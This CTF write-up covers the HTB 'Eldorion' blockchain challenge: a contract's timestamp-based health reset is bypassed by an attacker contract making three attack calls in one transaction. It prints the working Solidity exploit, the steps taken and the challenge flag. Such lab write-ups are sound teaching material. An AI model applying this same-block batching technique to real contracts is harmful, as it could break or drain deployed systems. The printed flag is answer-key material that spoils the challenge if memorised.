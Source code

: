 # Eldorion Blockchain Challenge Writeup

## Challenge Overview
The Eldorion challenge is a blockchain-based CTF from HTB 2025. The objective is to defeat the "Eldorion" smart contract by reducing its health to exactly 0.

## Vulnerability Analysis

The challenge consists of two main contracts:

1. **Setup.sol** - Entry point that deploys and references the target Eldorion contract.
2. **Eldorion.sol** - The contract we need to defeat.

### Key Vulnerability

The vulnerability lies in the `eternalResilience` modifier in the Eldorion contract:

```solidity
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

This modifier is applied to the `attack()` function. It resets the health to MAX_HEALTH (300) whenever a new block timestamp is encountered. 

The crucial vulnerability is that the health only resets when the timestamp changes. Multiple attacks in the same block will bypass this health reset mechanism.

### Exploitation Strategy

The Eldorion contract has:
- Initial health of 300
- MAX_HEALTH of 300
- A limit of 100 damage per attack

To defeat Eldorion, we need to:
1. Make three attacks of 100 damage each
2. Ensure all three attacks happen within the same block (same timestamp)
3. This will reduce health from 300 to exactly 0

## Solution

The solution is to deploy an attacker contract that makes three calls to Eldorion's `attack()` function in a single transaction, which guarantees they execute at the same timestamp.

### Attacker Contract Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

interface IEldorion {
    function attack(uint256 damage) external;
    function isDefeated() external view returns (bool);
}

contract EldorionAttacker {
    IEldorion public immutable target;
    
    constructor(address _target) {
        target = IEldorion(_target);
    }
    
    function executeAttack() external {
        // Execute three attacks with 100 damage each in a single transaction
        target.attack(100);
        target.attack(100);
        target.attack(100);
        
        // Verify Eldorion is defeated
        require(target.isDefeated(), "Eldorion not defeated");
    }
}
```

### Exploitation Steps

1. Connected to the challenge server at 94.237.63.28:38259 to get the setup information:
   - Player account private key and address
   - Target (Eldorion) contract address
   - Setup contract address

2. Compiled the EldorionAttacker contract with Solidity 0.8.28.

3. Deployed the attacker contract, passing the Eldorion contract address as the constructor parameter.

4. Called the `executeAttack()` function, which:
   - Made three `attack(100)` calls in a single transaction
   - Each attack dealt 100 damage
   - The health went from 300 → 200 → 100 → 0
   - The contract verified Eldorion was defeated

5. After executing the attack transaction, the `EldorionDefeated` event was emitted, confirming the successful exploit.

6. Retrieved the flag from the challenge server by selecting option 3 (Get flag).

## Lessons Learned

1. **Timestamp Manipulation**: The vulnerability demonstrates how timestamp-based conditions can be bypassed if multiple operations happen within the same block.

2. **Smart Contract Design Issues**: The `eternalResilience` modifier was intended to protect Eldorion by resetting health on each new attack, but failed to account for multiple attacks in the same transaction.

3. **Block Atomicity**: All operations within a single transaction execute atomically (or not at all), which allowed us to make all attacks before the health reset could take effect.

## Flag

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

The flag references our "triple hit combo" attack strategy which defeated Eldorion.
